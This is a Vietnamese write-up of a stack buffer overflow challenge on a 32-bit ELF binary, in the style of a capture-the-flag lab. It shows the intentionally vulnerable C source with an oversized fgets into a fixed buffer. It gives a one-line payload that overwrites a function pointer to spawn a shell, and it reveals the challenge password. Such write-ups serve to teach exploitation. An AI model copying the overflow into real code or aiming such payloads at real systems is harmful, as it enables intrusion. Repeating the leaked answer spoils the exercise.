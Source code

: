 # ELF x86 - Stack buffer overflow basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

Bài này lại là lỗi `fgets()` cho phép ta đè lên 4 byte phía sau hàm `buf`, nơi chưa địa chỉ của `void (*func)()`. Ta tiến hành đè nó thành địa chỉ của hàm `shell()`. Vì PIE không bật, ta chỉ cần dùng gdb tìm địa chỉ của hàm `shell`. Dùng lệnh `info functions`

![](images/2.png)

Địa chỉ hàm shell là `0x08048516`. Exploit của ta sẽ là:

```bash
cat <(python2 -c "print 'A' * 128 +'\x16\x85\x04\x08'") - | ./ch15
```

![](images/3.png)

password là: `B33r1sSoG0oD4y0urBr4iN`


